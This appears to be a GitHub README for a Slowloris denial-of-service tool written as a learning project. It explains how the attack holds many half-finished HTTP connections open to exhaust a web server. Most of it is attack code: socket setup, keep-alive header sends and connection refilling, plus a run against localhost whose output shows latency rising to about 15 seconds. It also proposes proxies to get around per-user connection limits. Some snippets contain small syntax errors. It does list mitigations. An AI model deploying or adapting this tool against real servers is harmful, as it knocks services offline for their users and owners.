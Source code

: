 # Slow Loris Attack
The Slowloris attack allows a user to DDOS a server using only one machine. It tries to keep as many connections open with the target web server as possible and tries to keep them open as long as possible. As soon as Slowloris has opened a connection, it will keep it open by sending incomplete requests that it will slowly complete as it goes along but will never finish them. Affected servers will see their maximum number of connections reached and may refuse new user connections.

The servers mostly affected by the Slowloris attack are:

- Apache 1.x and 2.x
- dhttpd
- Flask
There are modules for Apache that reduce the chance of a Slowloris attack such as:

- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

There are other methods to protect yourself, such as installing a:

- reverse proxy
- firewall
- load balancer
- content switches
If none of these solutions are available, it is always possible to place your web server behind an Nginx or lighthttpd.

## How it works
It is necessary to install some dependencies. The commands to be executed to have an execution environment are the following:

```Python
virtualenv env
source env/bin/activate
pip install -r requirements.txt
```
Then it is possible to choose some options:

- a: Host to perform an attack on, default localhost
- p: Port of the server, default = 80
- s: Max socket to use
- d: Debug mode

First of all, it is necessary to retrieve the type of server you want to attack. For example, an apache 1.x/2.x server will allow an optimal attack.

On the other hand, attacking a WebServer running with the NodeJS framework from version 8 is useless.

To retrieve the type of server, we send a get request:
```Python
sock.send("GET / HTTP/1.1\r\n\n".encode("ascii"))
```
Then we analyze the answer.

```Python
HTTP/1.1 400 Bad Request Date: Wed, 10 Jul 2019 16:18:53 GMT Server: Apache/2.4.29 (Ubuntu) Content-Length: 301 Connection: close Content-Type: text/html; charset=iso-8859-1
```

For the initialization of the sockets three requests are sent:

```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
The first one initiates the connection
The second one sends the user agent used randomly chosen from the user agent pool.
The third one says which languages are accepted.
On initialization, the Slowloris will try to initiate as many connections as requested.

It will then keep them alive by completing them every 15 seconds with:

```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
It will then try to open connections again until he reaches the limit we have set.
```
for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Then the Slowloris will calculate the latency by requesting a separate thread.

```Python
response = requests.get(self.url).elapsed.total_seconds()
```
The request makes a get on the host entered by the user and retrieves the time between sending and answering the request.

## Results
The results below were performed on an Apache server with the initial configuration.

The program ran with the following command:

`python src/main.py -a 127.0.0.1 -s 1000`
At first, the console shows us that we are on an Apache server, which is perfect for our attack.

`[127.0.0.1] server running with Apache, best configuration for this attack`
In the second step, the initial latency is displayed:

`[Latency] -- 0.002142`

It is therefore noticeable that the latency time is relatively low.

Then we initialize the maximum socket.

`279 connections 1000 initialized`

We notice here that we managed to initialize only 279 sockets out of 1000 planned. We now try to keep them open as long as possible.

After 15 seconds, we try to create new connections to reach 1000 open connections.

After 5 minutes, you can see that we have 408 open sockets.

`408 connections 1000 initialized`

There is also a 15-second latency proof that denial of service works.

`[Latency] -- 15.80608`
After 10 minutes, the program is stopped so that you can see an average latency of 14.7 seconds.

**Average latency = 14.7025671999999999999**


When you try to launch another Slowloris on the same server when there is already a Slowloris running, it won't succeed because the number of open connections is already maxed out.

```Bash
(env) ➜ slow attack git:(master) ✗ python src/main.py -a 127.0.0.1
19:30:51 - Slow Loris Attack Started
19:30:54 - No Webserver detected, please verify your target address
```
## Difficulties
The main challenge was hardware, trying the attack on a remote server. The internet box "banned" me. It was impossible to access any website outside, impossible to use a DNS.


The second difficulty was to understand that the nodes' servers were not affected. The program seemed to work, but no slowdowns observed.

## Room for Improvement
There is much room for improvement:

- Automatic detection of the server and optimization of the parameters.
- Automatic detection of server timeout for requests.
- Detection of the maximum number of server connections to be able to choose the level of DDoS you want (a little, a lot, medium).
- Use of proxies to allow more connections when there is a limited number of connections per user.

The Slowloris attack is exciting if the webserver is vulnerable to this attack because it allows a single computer to easily DDoS a server. However, it is easy to protect yourself against these attacks by implementing a few rules: a limited number of sockets per user, firewall, reverse proxy, etc..

Thanks to Quentin Derosin for the help on this project.
